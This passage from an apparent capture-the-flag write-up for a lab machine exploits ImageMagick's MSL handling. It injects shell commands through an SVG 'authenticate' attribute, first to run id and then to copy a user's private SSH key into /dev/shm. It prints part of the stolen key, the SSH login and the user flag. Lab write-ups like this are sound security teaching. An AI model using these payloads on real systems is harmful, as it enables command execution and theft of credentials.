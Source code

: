 We write a new `svg` image that will echo the result of the `id` command in a
file and wait for the `cron` to execute (note that we can also execute the
command as `www-data` to validate the PoC).


    :::xml
    <image authenticate='ff" `echo $(id)> /dev/shm/test`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
      <image xlink:href="msl:rce.svg" height="100" width="100"/>
      </svg>
    </image>

As the file was written we use a payload that will give us access to `thomas`'s
private SSH key.

    :::xml
    <image authenticate='ff" `cp /home/thomas/.ssh/id_rsa /dev/shm/; chmod 777 /dev/shm/id_rsa`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
      <image xlink:href="msl:rce2.svg" height="100" width="100"/>
      </svg>
    </image>

We can then copy the key.

    :::text
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/id_rsa
    cat /dev/shm/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
    x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV
    qMgzqmJPFAdxmkD9WRnVP9OqEF0ZEYwTFuFPUlNq5hSbNRucwXEXbW0Wk7xdXwe3OJk8hu
    <SNIP>


And we connect as `thomas` on the box and grab the user flag.

    :::text
    ssh thomas@10.129.159.86 -i id_rsa
    thomas@meta:~$ cat user.txt
    34bdbba1436e176c3c13ceb0a045d740


# Root
